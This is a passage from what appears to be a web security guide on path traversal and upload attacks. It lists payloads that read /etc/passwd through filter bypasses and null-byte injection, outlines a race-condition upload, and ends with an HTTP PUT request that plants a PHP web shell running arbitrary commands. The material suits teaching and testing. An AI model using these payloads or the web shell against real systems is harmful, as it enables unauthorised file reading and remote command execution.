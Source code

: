 ### Attack Vector #9: Non-Recursive Filter Bypass

Some applications remove traversal sequences but do so non-recursively, creating opportunities for nested payloads:

```
....//....//....//etc/passwd
```

After single-pass filtering removes `../`, the payload becomes `../../../etc/passwd`.

### Attack Vector #10: Path Validation Bypass

Applications may require specific path prefixes. Attackers can satisfy these requirements while still achieving traversal:

```
/var/www/images/../../../etc/passwd
```

### Attack Vector #11: Null Byte Injection

Legacy applications vulnerable to null byte injection can be exploited to bypass extension validation:

```
../../../etc/passwd%00.png
```

The null byte terminates string processing in lower-level languages, effectively ignoring the `.png` suffix.

---

## Part III: Advanced Exploitation Techniques

### Race Condition Exploitation

Modern frameworks often implement temporary file processing with validation. However, timing windows can be exploited:

**Attack Methodology:**
1. Upload malicious file to temporary location
2. Simultaneously request file execution
3. Exploit processing window before validation completes

### HTTP PUT Method Abuse

RESTful APIs sometimes expose HTTP PUT methods without proper authentication:

```http
PUT /uploads/shell.php HTTP/1.1
Content-Type: application/x-httpd-php

<?php echo system($_GET['cmd']); ?>
```
